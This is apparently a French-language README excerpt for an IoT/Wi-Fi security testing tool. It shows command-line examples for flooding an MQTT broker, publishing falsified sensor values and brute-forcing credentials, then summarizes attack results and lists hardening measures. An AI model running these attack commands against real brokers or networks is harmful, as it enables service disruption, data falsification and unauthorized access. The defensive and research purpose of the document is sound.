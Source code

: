 ### Exemple d'Utilisation
```bash
# Inondation du broker
SECoT mqtt-attack --broker 192.168.1.100 --port 1883 flood --topic test/flood --count 1000

# Publication de données falsifiées
SECoT mqtt-attack --broker 192.168.1.100 --port 1883 fake-publish --topic weather/temperature --payload "100" --count 10

# Force brute des identifiants
SECoT mqtt-attack --broker 192.168.1.100 --port 1883 brute-force --users users.txt --passwords passwords.txt
```

# Analyse et Résultats

## Mesure de la portée des attaques

### Tests en conditions réelles
- Taux de succès de la dé-authentification : ~100%
- Temps de reconnexion : < 10 secondes
- Capture des handshakes WPA2 réussie

## Impact sur les objets IoT

### Résultats des tests
- MQTT sans authentification : compromission totale
- Mots de passe faibles : craquage en quelques minutes
- Configuration sécurisée : résistance aux attaques

# Solutions et Bonnes Pratiques

## Sécurisation des réseaux Wi-Fi

### Recommandations
- Utilisation de WPA3
- Mots de passe forts et uniques
- Filtrage des adresses MAC
- Désactivation du WPS
- Surveillance IDS

## Sécurisation des IoT

### Mesures de protection
- MQTT sur TLS
- Authentification forte
- Mises à jour régulières
- Limitation des accès
- Segmentation réseau
